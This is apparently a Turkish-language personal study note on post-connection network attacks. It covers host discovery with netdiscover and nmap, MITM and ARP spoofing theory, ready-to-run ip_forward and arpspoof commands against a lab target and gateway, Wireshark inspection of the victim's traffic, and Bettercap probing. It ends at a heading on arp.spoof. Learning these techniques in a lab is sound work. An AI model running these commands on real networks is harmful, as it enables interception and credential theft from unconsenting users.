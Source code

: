 ### Bağlantı Sonrası Yapılacaklar

**_ Netdiscover _**
-Mac adresleri ve ip adreslerini gösteren tablo çıkarır

~ifconfig //ip adresini öğren (bağlı olduğun ağın ya da kırdığın ağın)

~netdiscover -i eth0 -r 10.0.2.0/24 -c 10 // eth0=adı ,, 0/24 bu aralıktaki ağlar ,, 10 ne kadar istek atılacağı

**_ nmap _**

~nmap 10.0.2.0/24 //aynı sonucu verir

////////

**_ Port _**
-Her veri belirli portlardan sağlanır. Her servisin kendine has portu vardır.
Örn: 80 portu Http , 443 portu Https (Web sitesi açmak için)

////////

**_ MITM (Man-in-the-Middle) (Ortadaki Adam) Saldırısı _**

-Hacker bilgisayar kendini ortaya konumlandırır. Kurban, tüm verileri hackera yollar (çünkü onu modem sanıyor). Hacker da bu verileri modeme yollar (çünkü trafiğin devam etmesini istiyor). Arada durup, tüm verileri okuyabilir, değiştirebilir veya kaydedebilir.

**_ ARP (Address Resolution Protocol) (Adres Çözümleme Protokolü) Açığı _**
--Bir bilgisayar, bir IP adresine veri göndermek isterse önce o IP’ye ait MAC adresini öğrenmek için ağa ARP isteği (Who has?) yollar.Kurbana:
“Modemin IP’si şu, ama MAC adresi benim” der.Modeme de:
“Kurbanın IP’si şu, ama MAC adresi benim” der.

**_ ARP Poison _**

~netdiscover -i eth0 -r 10.0.2.0/24 -c 10 //mac ip adres öğren

~echo 1 > /proc/sys/net/ipv4/ip_forward //Normalde bir bilgisayar, gelen IP paketlerini sadece kendisine yönlendirilmişse işler. Ancak bu komut sayesinde o bilgisayar, gelen IP paketlerini başka bir cihaza yönlendirebilir hale gelir. Yani, bilgisayar bir router (yönlendirici) gibi davranır.

~arpspoof -i eth0 -t 10.0.2.6 10.0.2.1 //saldırı
~arpspoof -i eth0 -t 10.0.2.1 10.0.2.6 //2 terminalle hem modeme hem

~arp -a //saldırılan bilgisayar da bu komutu çalıştırdığında aynı mac adresine sahip iki cihaz görürsen saldırıya uğruyorsun

**_ Wireshark _**
--Wireshark, ağ trafiğini gerçek zamanlı olarak izlemek ve analiz etmek için kullanılan güçlü bir ağ analiz aracıdır.Ağa gelen ve giden tüm veri paketlerini görüntüler.Paketlerin içeriğini analiz eder (örneğin: IP, TCP, HTTP, DNS, vs.).Ağ sorunlarını tespit etmeye yardımcı olur. Güvenlik açıklarını incelemek için kullanılır (örneğin: şifrelenmemiş veriler, şüpheli bağlantılar).MITM gibi saldırılarda kurbanın verilerini görmek için kullanılır.

**_ Spoofing _**

Spoofing, Türkçede “aldatma”, “kimliğe bürünme” veya “sahtecilik” anlamına gelir ve siber güvenlikte bir sistemin, cihazın ya da kişinin kimliğini taklit ederek yapılan saldırılara verilen genel isimdir.

**_ Wireshark Saldırı İnceleme _**

~echo 1 > /proc/sys/net/ipv4/ip_forward
~arpspoof -i eth0 -t 10.0.2.6 10.0.2.1 //saldırı
~arpspoof -i eth0 -t 10.0.2.1 10.0.2.6 //2 terminalle, hem modeme hem cihaz

wireshark aç ve hareketleri incele saldırdığın cihazın

**_ Bettercap _**
Aktif bir saldırı aracıdır. MITM saldırıları, DNS spoofing, credential harvesting gibi saldırgan işlemleri yapabilir. CLI (komut satırı) üzerinden çalışır. Ağ üzerindeki diğer cihazları hedef alabilir. Paketleri değiştirebilir, yönlendirebilir.

~bettercap -iface eth0 //arayüz çıkar

~help //açıldıktan sonra yazarsan neler yapabileceğin görürünür
~help ... // ... kısmına kullanmak istediğin method

-- net.probe --

~net.probe on/off // nmap veya netdiscover ın yaptıklarını yapar. Ağları dürter. IP ve kullanıcının (telefon,bilgisayar..) isimleri görünür. net.recon da açılır.

~net.show // topladığı bilgileri gösterir.nmap veya netdiscover ın yaptıklarını yapar. Ağları dürter. IP , MAC adresi ve kullanıcının (telefon,bilgisayar..) isimleri görünür.

~net.clear // topladıüı bilgiler, siler.

-- arp.spoof --
